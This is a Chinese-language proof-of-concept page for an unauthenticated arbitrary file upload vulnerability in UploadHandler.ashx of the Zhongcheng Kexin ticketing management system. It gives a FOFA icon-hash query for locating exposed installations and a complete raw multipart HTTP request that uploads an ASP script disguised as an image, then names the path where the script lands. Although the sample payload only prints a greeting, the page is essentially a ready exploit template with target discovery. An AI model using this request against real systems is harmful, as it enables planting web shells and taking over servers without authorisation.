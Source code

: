 # 中成科信票务管理系统UploadHandler.ashx任意文件上传漏洞

中成科信票务管理系统 UploadHandler.ashx 任意文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```javascript
icon_hash="1632964065" || icon_hash="-2142050529"
```

## poc

```javascript
POST /WeChat/ashx/UploadHandler.ashx HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
 
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.asp"
Content-Type: image/jpeg
 
<% Response.Write("Hello, World!") %>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```

![image-20241115101054420](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411151010495.png)

文件路径：`/UploadImage/1.asp`